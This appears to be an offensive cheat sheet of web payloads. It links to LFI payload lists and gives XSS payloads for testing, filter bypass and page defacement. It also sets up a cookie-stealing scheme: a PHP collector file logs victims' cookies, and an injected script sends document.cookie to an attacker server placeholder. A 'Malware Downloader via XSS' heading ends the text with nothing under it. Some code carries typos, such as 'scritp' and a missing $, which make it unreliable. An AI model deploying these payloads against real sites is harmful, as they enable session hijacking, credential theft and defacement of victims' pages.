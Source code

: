 ### LFI Payloads

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

## XSS

### Reflected

### Simple test

This is a simple test to see what happens, this is not a prove that the field is vuln to xss

<plaintext>

### Simple XSS test

<script>alert('Found')</script>

"><script>alert(Found)</script>">

<script>alert(String.fromCharCode(88,83,83))</script>

### Bypass filter of tag script

`" onload="alert(String.fromCharCode(88,83,83))`

" onload="alert('XSS')

bla is not a valid image, so this cause an error

<img src='bla' onerror=alert("XSS")>

### Persistent

>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";

### PHP collector

`> cookie.txtchmod 777 cookie.txt`

edit a php page like colector.php as follow:

<?php $cookie=GET['cookie']; $useragent=$_SERVER['HTTP_USER_AGENT']; $file=fopen('cookie.txt', 'a'); fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n"); fclose($file);
?>

Script to put in page:

<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>

### Malware Donwloader via XSS
